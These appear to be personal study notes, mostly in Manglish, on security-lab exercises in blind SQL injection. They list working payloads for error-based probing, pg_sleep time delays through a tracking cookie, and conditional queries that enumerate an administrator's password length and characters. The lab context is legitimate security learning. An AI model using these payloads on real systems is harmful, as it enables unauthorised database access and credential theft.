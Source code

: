 




       Lab-5.b(practical-Blind SQL injection with conditional errors):
-->aadyam ' single qoute itt sql i undon nokuka.athupole oru qoute koodi itt ath close chyth error varunundo enn nokuka.
-->'+||+(select+' ')+||+' itt nokuka 
-->oracle db aanengil '+||+(select+' '+from+dual)+||+'     itt nokuka 







#### Exploiting blind SQL injection by triggering time delays:
-->ivide time delay undakunathtan padipikunath

          Lab-5.c(practical-blind sql i with time delays):
-->nammal sql i eth parameteril varum enn kandupidikanam.ivide tracking-id cookie aan
-->so time delay undakanamenki eth database aan enn manasilakanam(cheatsheet).
        -->'+||+(SELECT+pg_sleep(10))--    
		
	Lab-5.d(practical-Blind SQLi with time delays and information retrieval)
	
-->first we need to confirm the parameter is vulnerable to sql i
    -->use '  ,-->use '+||+pg_sleep(5)--
-->second confirm that the users table exist in the database.so athinayi nammal time delay vekunu.so if time delay aakunengi exist allengil alla enna reethiyil aakiyamathi
   -->'+||+(select+case+when+(1=1)+then+pg_sleep(10)+else+pg_sleep(-1)+end)--;
-->ini administrator enna username undon nokam:
   -->'+||+(select+case+when+(username='administrator')+then+pg_sleep(10)+else+
        pg_sleep(-1)+end+from+users)--;
		ivide users enna tablil administrator enna username undon nokunu.so ee query 10 second sleep akunundenki true aan
-->ini namuk password enumerate chyam.first passwd length enumerate chyam:
     -->'+||+(select+case+when+(username='administrator'+and+LENGTH
	 (password)>25)+then+pg_sleep(10)+else+pg_sleep(-1)+end+from+users)--;
	 -->ivide 10 second delay ila so athinartham passwd length 25 nekal kuravan.ith nammal nerethe chythathpole bruteforce chyth kandupidikam
-->ipol passwd length kiti ini passwd charecters kandupidikam:
   --> '+||+(select+case+when+(username='administrator'+
and+substring(password,1,1)='a')+then+pg_sleep(10)+else+pg_sleep(-1)+end+from+users--;
-->ini nerthe pole bruteforce chyth password kandupidikuka.ok
